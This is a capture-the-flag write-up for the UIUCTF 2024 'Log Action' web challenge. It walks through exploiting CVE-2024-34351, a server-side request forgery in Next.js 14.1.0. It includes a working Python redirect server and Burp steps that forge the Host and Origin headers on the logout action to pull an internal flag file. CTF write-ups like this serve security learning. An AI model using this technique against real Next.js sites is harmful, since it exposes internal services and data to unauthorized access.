




+++
title = 'UIUCTF 2024 Log Action'
date = 2024-07-01T12:24:09+02:00
categories = ['UIUCTF2024', 'Web']
+++


## Initial Code Analysis
Upon inspecting the code, we discovered that the frontend application is running Next.js 14.1.0. This version is vulnerable to SSRF https://nvd.nist.gov/vuln/detail/CVE-2024-34351. 


We also notice the *flag.txt* file is copied to */usr/share/nginx/html/flag.txt* in the backend app, meaning it's exposed via *backend/flag.txt* inside the docker network.


We'll perform an SSRF to make the frontend application send a request to the backend application */flag.txt* and send it back to us.

## Redirect Action
The CVE is pretty straightforward. First, we need to find a Next.js *redirect* action that'll allow us to perform it. There are only 2 in the application: one is *redirect('/admin');* upon successful login as admin and the other one is *redirect("/login");* upon successful logout. We can't reach *redirect('/admin');* because that would require us to guess an admin password generated randomly on each call, however the logout action is available even if the user isn't logged in. 




## Redirect Server
The next step to performing the attack is setting up a redirect server. For this purpose, we write this Python code and save it as `server.py`:

```python
from http.server import BaseHTTPRequestHandler, HTTPServer

class RedirectHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        self.send_response(302)
        self.send_header('Location', 'http://backend/flag.txt')
        self.end_headers()
    def do_HEAD(self):
        self.send_response(200)
        self.send_header('Content-Type', 'text/x-component')
        self.end_headers()

def run(server_class=HTTPServer, handler_class=RedirectHandler, port=80):
 server_address = ('', port)
 httpd = server_class(server_address, handler_class)
    print(f"Server running at http://localhost:{port}/")
 httpd.serve_forever()

if __name__ == "__main__":
    run()
```

2 things to note here:
- We need to answer the preflight HEAD request with `Content-Type: text/x-component` for the Next.js app to make the following GET request,
- On the GET request, we do a 302 redirect to `http://backend/flag.txt` which will make the frontend app send a request to it and return us the result.

These steps are based on the CVE writeup at https://www.assetnote.io/resources/research/digging-for-ssrf-in-nextjs-apps.

We launch our python script with `python3 server.py`. We'll expose our local instance globally by using https://localhost.run/. We copy the address that has been assigned to us.



## Exploitation
Finally, we're ready to connect all the pieces. Let's launch Burp, navigate to `/logout`, and click the logout button. 


In Burp history, let's repeat the POST /logout, replacing Origin and Host with our redirect server address.




As we can see, we successfully performed the exploitation and received the flag. We ran the attack against a local instance, but there's no difference in exploitation against a remote one. We can also check our server logs to confirm that the app made a HEAD request followed by a GET request.



## References
- https://nvd.nist.gov/vuln/detail/CVE-2024-34351
- https://www.assetnote.io/resources/research/digging-for-ssrf-in-nextjs-apps